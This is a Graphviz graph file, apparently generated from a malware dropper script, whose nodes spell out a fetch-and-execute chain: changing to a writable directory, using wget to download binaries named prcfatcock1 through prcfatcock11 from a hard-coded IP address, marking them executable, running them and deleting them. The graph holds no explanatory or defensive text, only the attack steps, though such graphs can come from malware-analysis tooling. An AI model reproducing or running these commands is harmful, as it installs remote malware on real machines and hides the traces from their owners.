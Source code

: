 digraph {
180 [label="cd /tmp "];
180 -> 180
182 [label="cd /var/system "];
182 -> 184 [label="||,"];
184 [label="cd /mnt "];
184 -> 186 [label="||,"];
186 [label="cd /root "];
186 -> 188 [label="||,"];
188 [label="cd / "];
188 -> 10 [label="||,"];
10 [label="wget http://94.177.197.173/prcfatcock1 "];
10 -> 12 [label=";,"];
12 [label="chmod +x prcfatcock1 "];
12 -> 14 [label=";,"];
14 [label="./prcfatcock1 "];
14 -> 16 [label=";,"];
16 [label="rm -rf prcfatcock1 "];
16 -> 180 [label=";,"];
180 [label="cd /tmp "];
180 -> 180
182 [label="cd /var/system "];
182 -> 184 [label="||,"];
184 [label="cd /mnt "];
184 -> 186 [label="||,"];
186 [label="cd /root "];
186 -> 188 [label="||,"];
188 [label="cd / "];
188 -> 28 [label="||,"];
28 [label="wget http://94.177.197.173/prcfatcock2 "];
28 -> 30 [label=";,"];
30 [label="chmod +x prcfatcock2 "];
30 -> 32 [label=";,"];
32 [label="./prcfatcock2 "];
32 -> 34 [label=";,"];
34 [label="rm -rf prcfatcock2 "];
34 -> 180 [label=";,"];
180 [label="cd /tmp "];
180 -> 180
182 [label="cd /var/system "];
182 -> 184 [label="||,"];
184 [label="cd /mnt "];
184 -> 186 [label="||,"];
186 [label="cd /root "];
186 -> 188 [label="||,"];
188 [label="cd / "];
188 -> 46 [label="||,"];
46 [label="wget http://94.177.197.173/prcfatcock3 "];
46 -> 48 [label=";,"];
48 [label="chmod +x prcfatcock3 "];
48 -> 50 [label=";,"];
50 [label="./prcfatcock3 "];
50 -> 52 [label=";,"];
52 [label="rm -rf prcfatcock3 "];
52 -> 180 [label=";,"];
180 [label="cd /tmp "];
180 -> 180
182 [label="cd /var/system "];
182 -> 184 [label="||,"];
184 [label="cd /mnt "];
184 -> 186 [label="||,"];
186 [label="cd /root "];
186 -> 188 [label="||,"];
188 [label="cd / "];
188 -> 64 [label="||,"];
64 [label="wget http://94.177.197.173/prcfatcock4 "];
64 -> 66 [label=";,"];
66 [label="chmod +x prcfatcock4 "];
66 -> 68 [label=";,"];
68 [label="./prcfatcock4 "];
68 -> 70 [label=";,"];
70 [label="rm -rf prcfatcock4 "];
70 -> 180 [label=";,"];
180 [label="cd /tmp "];
180 -> 180
182 [label="cd /var/system "];
182 -> 184 [label="||,"];
184 [label="cd /mnt "];
184 -> 186 [label="||,"];
186 [label="cd /root "];
186 -> 188 [label="||,"];
188 [label="cd / "];
188 -> 82 [label="||,"];
82 [label="wget http://94.177.197.173/prcfatcock5 "];
82 -> 84 [label=";,"];
84 [label="chmod +x prcfatcock5 "];
84 -> 86 [label=";,"];
86 [label="./prcfatcock5 "];
86 -> 88 [label=";,"];
88 [label="rm -rf prcfatcock5 "];
88 -> 180 [label=";,"];
180 [label="cd /tmp "];
180 -> 180
182 [label="cd /var/system "];
182 -> 184 [label="||,"];
184 [label="cd /mnt "];
184 -> 186 [label="||,"];
186 [label="cd /root "];
186 -> 188 [label="||,"];
188 [label="cd / "];
188 -> 100 [label="||,"];
100 [label="wget http://94.177.197.173/prcfatcock6 "];
100 -> 102 [label=";,"];
102 [label="chmod +x prcfatcock6 "];
102 -> 104 [label=";,"];
104 [label="./prcfatcock6 "];
104 -> 106 [label=";,"];
106 [label="rm -rf prcfatcock6 "];
106 -> 180 [label=";,"];
180 [label="cd /tmp "];
180 -> 180
182 [label="cd /var/system "];
182 -> 184 [label="||,"];
184 [label="cd /mnt "];
184 -> 186 [label="||,"];
186 [label="cd /root "];
186 -> 188 [label="||,"];
188 [label="cd / "];
188 -> 118 [label="||,"];
118 [label="wget http://94.177.197.173/prcfatcock7 "];
118 -> 120 [label=";,"];
120 [label="chmod +x prcfatcock7 "];
120 -> 122 [label=";,"];
122 [label="./prcfatcock7 "];
122 -> 124 [label=";,"];
124 [label="rm -rf prcfatcock7 "];
124 -> 180 [label=";,"];
180 [label="cd /tmp "];
180 -> 180
182 [label="cd /var/system "];
182 -> 184 [label="||,"];
184 [label="cd /mnt "];
184 -> 186 [label="||,"];
186 [label="cd /root "];
186 -> 188 [label="||,"];
188 [label="cd / "];
188 -> 136 [label="||,"];
136 [label="wget http://94.177.197.173/prcfatcock8 "];
136 -> 138 [label=";,"];
138 [label="chmod +x prcfatcock8 "];
138 -> 140 [label=";,"];
140 [label="./prcfatcock8 "];
140 -> 142 [label=";,"];
142 [label="rm -rf prcfatcock8 "];
142 -> 180 [label=";,"];
180 [label="cd /tmp "];
180 -> 180
182 [label="cd /var/system "];
182 -> 184 [label="||,"];
184 [label="cd /mnt "];
184 -> 186 [label="||,"];
186 [label="cd /root "];
186 -> 188 [label="||,"];
188 [label="cd / "];
188 -> 154 [label="||,"];
154 [label="wget http://94.177.197.173/prcfatcock9 "];
154 -> 156 [label=";,"];
156 [label="chmod +x prcfatcock9 "];
156 -> 158 [label=";,"];
158 [label="./prcfatcock9 "];
158 -> 160 [label=";,"];
160 [label="rm -rf prcfatcock9 "];
160 -> 180 [label=";,"];
180 [label="cd /tmp "];
180 -> 180
182 [label="cd /var/system "];
182 -> 184 [label="||,"];
184 [label="cd /mnt "];
184 -> 186 [label="||,"];
186 [label="cd /root "];
186 -> 188 [label="||,"];
188 [label="cd / "];
188 -> 172 [label="||,"];
172 [label="wget http://94.177.197.173/prcfatcock10 "];
172 -> 174 [label=";,"];
174 [label="chmod +x prcfatcock10 "];
174 -> 176 [label=";,"];
176 [label="./prcfatcock10 "];
176 -> 178 [label=";,"];
178 [label="rm -rf prcfatcock10 "];
178 -> 180 [label=";,"];
180 [label="cd /tmp "];
180 -> 180
182 [label="cd /var/system "];
182 -> 184 [label="||,"];
184 [label="cd /mnt "];
184 -> 186 [label="||,"];
186 [label="cd /root "];
186 -> 188 [label="||,"];
188 [label="cd / "];
188 -> 190 [label="||,"];
190 [label="wget http://94.177.197.173/prcfatcock11 "];
190 -> 192 [label=";,"];
192 [label="chmod +x prcfatcock11 "];
192 -> 194 [label=";,"];
194 [label="./prcfatcock11 "];
194 -> 195 [label=";,"];
}
